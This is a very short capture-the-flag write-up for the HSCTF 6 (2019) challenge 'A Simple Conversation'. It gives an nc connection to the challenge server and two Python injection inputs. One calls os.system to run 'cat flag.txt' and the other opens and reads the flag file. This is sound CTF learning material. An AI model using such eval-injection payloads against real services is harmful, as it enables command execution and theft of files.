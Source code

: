 ## A Simple Conversation [Miscellaneous | HSCTF 6 | 2019]

1. run `nc misc.hsctf.com 9001`
2. give input: `str(__import__('os').system("cat flag.txt"))`

or

   give input: `open('flag.txt', 'r').readlines()`